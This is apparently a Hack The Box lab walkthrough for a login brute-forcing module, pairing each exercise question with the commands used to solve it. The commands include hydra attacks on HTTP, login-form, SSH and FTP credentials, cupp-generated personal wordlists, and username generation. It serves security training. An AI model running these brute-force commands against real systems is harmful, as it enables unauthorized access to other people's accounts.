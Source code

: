 # [HTB] Login Brute Forcing

## Default Passwords

>**Q. Using the technique you learned in this section, try attacking the IP shown above. What are the credentials used?**

```bash
hydra -C /usr/share/wordlists/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 83.136.253.106 -s 55305 http-get /
```

## Username Brute Force

>**Q. Try running the same exercise on the question from the previous section, to learn how to brute force for users.**

```bash
Hint: Use the same answer as the previous question!
```

## Login Form Attacks

>**Q. Using what you learned in this section, try attacking the '/login.php' page to identify the password for the 'admin' user. Once you login, you should find a flag. Submit the flag as the answer.**

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt -f 83.136.253.106 -s 55305 http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"
```

## Service Authentication Brute Forcing

>**Q. Using what you learned in this section, try to brute force the SSH login of the user "b.gates" in the target server shown above. Then try to SSH into the server. You should find a flag in the home dir. What is the content of the flag?**

```bash
sudo apt install cupp
```

>**Q. Using what you learned in this section, try to brute force the SSH login of the user "b.gates" in the target server shown above. Then try to SSH into the server. You should find a flag in the home dir. What is the content of the flag?**

```bash
cupp -i
hydra -l b.gates -P william.txt -u -f ssh://83.136.253.168:43879 -t 4
ssh b.gates@83.136.253.168 -p 43879
ls
cat flag.txt
```

```bash
ls /home
netstat -antp | grep -i list
hydra -l m.gates -P rockyou-10.txt -u -f ftp://0.0.0.0
ftp 0.0.0.0
ls
get flag.txt
exit
ls
cat flag.txt
```

## Skills Assessment - Website

>**Q. When you try to access the IP shown above, you will not have authorization to access it. Brute force the authentication and retrieve the flag.**

```bash
hydra -C /usr/share/wordlists/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 83.136.254.230 -s 42335 http-get / 
```


>**Q. Once you access the login page, you are tasked to brute force your way into this page as well. What is the flag hidden inside?**

Hint: You may reuse the username you found earlier. Make sure you got the correct fail string and parameters.

```bash
hydra -l user -P /usr/share/wordlists/rockyou.txt -f 83.136.254.230 -s 42335 http-post-form "/admin_login.php:user=^USER^&pass=^PASS^:F=<form name='log-in'"
```

## Skills Assessment - Service Login

>**Q. As you now have the name of an employee, try to gather basic information about them, and generate a custom password wordlist that meets the password policy. Also use 'usernameGenerator' to generate potential usernames for the employee. Finally, try to brute force the SSH server shown above to get the flag.**

```bash
git clone https://github.com/urbanadventurer/username-anarchy.git
cd username-anarchy
./username-anarchy Harry Potter > usernameHarry.txt
cp usernameHarry.txt ../
```

```bash
cupp -i
```

```bash
> First Name: Harry
> Surname: Potter
> Nickname: 
> Birthdate (DDMMYYYY): 


> Partners) name: 
> Partners) nickname: 
> Partners) birthdate (DDMMYYYY): 


> Child's name: 
> Child's nickname: 
> Child's birthdate (DDMMYYYY): 


> Pet's name: 
> Company name: 


> Do you want to add some key words about the victim? Y/[N]: 
> Do you want to add special chars at the end of words? Y/[N]: y
> Do you want to add some random numbers at the end of words? Y/[N]:n
> Leet mode? (i.e. leet = 1337) Y/[N]: Y
```

```bash
hydra -L usernameHarry.txt -P harry.txt -u -f ssh://83.136.255.177:36015 -t 4
```

```bash
ssh username@83.136.255.177 -p 36015
ls
cat flag.txt
```

>**Q. Once you are in, you should find that another user exists in server. Try to brute force their login, and get their flag.**

```bash
ls /home
netstat -antp | grep -i list
hydra -l g.potter -P rockyou-30.txt -u -f ftp://0.0.0.0
ftp 0.0.0.0
ls
get flag.txt
exit
ls
cat flag.txt
```
